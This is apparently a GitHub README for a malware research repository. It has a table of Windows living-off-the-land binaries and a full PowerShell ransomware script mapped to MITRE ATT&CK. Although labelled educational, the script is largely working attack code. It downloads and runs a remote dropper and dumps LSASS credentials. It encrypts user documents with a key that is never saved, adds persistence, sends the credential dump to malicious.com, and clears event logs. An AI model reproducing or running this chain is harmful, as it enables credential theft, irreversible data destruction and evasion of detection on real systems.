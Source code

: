 
# NSFW - Fileless Malware

![bsod](https://github.com/user-attachments/assets/28d25a60-2ecf-44a3-bdbc-d55bbb3757d0)

## Introduction

This repository started out as a humble proof-of-concept—just me tinkering in the dark, learning the ropes of ransomware, wiperware, fileless malware, and the full MITRE ATT&CK kill chain. One year deep into the project, it has evolved significantly.

## LOLBins 101: Living off the Land Binaries & Scripts

**LOLBins** are legitimate Windows utilities repurposed by attackers to execute payloads, evade detection, and persist. Because they're trusted system tools, they offer stealth and flexibility for malware operations.
## Common LOLBins and Use Cases

| LOLBin | Abuse | Tactics |
|--------|-------|---------|
| `rundll32.exe` | Execute DLLs | Code exec, EDR bypass |
| `mshta.exe` | Run HTA payloads | Script exec, sandbox evasion |
| `regsvr32.exe` | Load COM DLLs | Fileless exec, C2 proxy |
| `wmic.exe` | WMI command exec | Proc launch, lateral move |
| `cmd.exe / powershell.exe` | Script runners | Payloads, persistence |
| `msbuild.exe` | Inline C# compile/exec | Fileless malware |
| `certutil.exe` | Download/decode files | Exfil, LOLBin abuse |
| `bitsadmin.exe` | Fetch remote files | Delivery, persistence |
| `schtasks.exe` | Schedule task | Priv escalation, persistence |
| `esentutl.exe` | Copy/exec files | Exfil, stealth ops |

---

## Theoretical Example of '100% Fileless' Ransomware Using the MITRE ATT&CK Framework

```powershell
# Advanced Ransomware Simulation Workflow - Single Execution PowerShell Script
# Educational & Research Purposes Only (Controlled Lab Environment)
# MITRE ATT&CK Mapped per Stage

# 1️⃣ Initial Access (T1190 - Exploit Public-Facing Application)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# 2️⃣ Execution (T1059.001 - Command and Scripting Interpreter: PowerShell)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 3️⃣ Privilege Escalation (T1548 - Abuse Elevation Control Mechanism)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 4️⃣ Credential Access (T1003.001 - LSASS Dumping)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 5️⃣ Discovery (T1082 - System Information Discovery)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select-Object Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select-Object Name, MacAddress, Status
Write-Output $sysInfo
Write-Output $networkInfo

# 6️⃣ Lateral Movement (T1021.001 - Remote Desktop Protocol)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 7️⃣ Impact - Advanced Encryption (T1486 - Data Encrypted for Impact)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 8️⃣ Persistence (T1547.001 - Registry Run Key & Scheduled Task)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" -PropertyType String
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 9️⃣ Exfiltration (T1041 - Exfiltration Over C2 & Encrypted Channels)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 1️⃣0️⃣ Defense Evasion & Cleanup (T1070 - Indicator Removal, Log Clearing, Process Masquerading)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

## Additional Resources
- [PrintNightmare Guide](https://itm4n.github.io/printnightmare-not-over/)
- [PrintNightmare](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-elevation-of-privilege-vulnerability-eop-the-printnightmare-of-2021/)
- [LOLOL Farm](https://lolol.farm/)
- [ATT&CK MITRE](https://attack.mitre.org/software/S0697/)
- [LOLGEN](https://lolgen.hdks.org/)
- [Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)
- [Dll injection](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- [Print drivers](https://github.com/jacob-baines/concealed_position)



